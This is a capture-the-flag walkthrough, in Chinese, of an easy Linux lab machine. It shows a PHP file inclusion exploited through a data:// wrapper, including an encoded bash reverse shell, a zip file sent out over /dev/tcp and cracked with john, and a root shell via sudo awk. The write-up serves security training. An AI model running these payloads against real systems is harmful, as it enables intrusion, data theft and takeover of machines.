

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.55.11 -sV -A -p- 

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 69:dc:67:49:10:2a:a4:26:a8:9f:c4:5d:a3:b8:a1:3e (ECDSA)
|_  256 6a:2b:e4:44:29:78:62:fb:61:0b:09:2f:9c:bc:18:c6 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
```

## Feroxbuster

```
[root@kali] /home/kali  
❯ feroxbuster -u 'http://192.168.55.11/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php
                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.55.11/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        0l        0w        0c http://192.168.55.11/contact.php
200      GET       25l      127w    10359c http://192.168.55.11/icons/openlogo-75.png
200      GET      368l      933w    10701c http://192.168.55.11/
[####################] - 19s   220551/220551  0s      found:3       errors:0      
[####################] - 18s   220546/220546  12201/s http://192.168.55.11/    
```

其中**contact.php**并没有任何回显，尝试参数爆破

## FFUF

```
[root@kali] /home/kali  
❯ ffuf -u 'http://192.168.55.11/contact.php?FUZZ=/etc/passwd' -w /usr/share/fuzzDicts/paramDict/AllParam.txt  -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.55.11/contact.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/fuzzDicts/paramDict/AllParam.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

page                    [Status: 200, Size: 1907, Words: 17, Lines: 36, Duration: 2ms]
:: Progress: [74332/74332] :: Job [1/1] :: 13333 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

发现可以读取文件，也可以直接利用伪协议

```
http://192.168.55.11/contact.php?page=data://text/plain,<?php system('id');?>
```


```
http://192.168.55.11/contact.php?page=data://text/plain,<?php system('printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC41NS40LzQ0NDQgMD4mMSkgJg==|base64 -d|bash')?>
```


## Zip Crack

```
www-data@debian:/var/www$ cat secure.zip > /dev/tcp/192.168.55.4/8888

[root@kali] /home/kali/temp  
❯ nc -lvnp 8888 > secure.zip              
listening on [any] 8888 ...
connect to [192.168.55.4] from (UNKNOWN) [192.168.55.11] 42980

[root@kali] /home/kali/temp  
❯ zip2john secure.zip >> zip.hash                                                                                                             ⏎
ver 2.0 efh 5455 efh 7875 secure.zip/password.txt PKZIP Encr: TS_chk, cmplen=96, decmplen=90, crc=4ADB6ACA ts=ABFC cs=abfc type=8

[root@kali] /home/kali/temp  
❯ john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
butterfly        (secure.zip/password.txt)     
1g 0:00:00:00 DONE (2025-04-21 22:09) 100.0g/s 1638Kp/s 1638Kc/s 1638KC/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

[root@kali] /home/kali/temp  
❯ unzip secure.zip
Archive:  secure.zip
[secure.zip] password.txt password: 
  inflating: password.txt            

[root@kali] /home/kali/temp  
❯ cat password.txt                        
Hello your admin here, I have left your password down below for you to use!

32(srT1Rne.Y
```

得到**support**用户的密码



## Root

```
support@debian:~$ sudo -l
Matching Defaults entries for support on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User support may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/awk
```

- [awk | GTFOBins](https://gtfobins.github.io/gtfobins/awk/)

可以利用**awk**直接读取**root.txt**

```
support@debian:~$ sudo /usr/bin/awk '//' /root/root.txt
```

也可以开启一个**shell**

```
support@debian:~$ sudo /usr/bin/awk  'BEGIN {system("/bin/sh")}'
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Summary

`User`：目录扫描，参数**FUZZ**，通过伪协议拿到**www-data**，爆破压缩包拿到**support**的密码

`Root`：**awk**提权
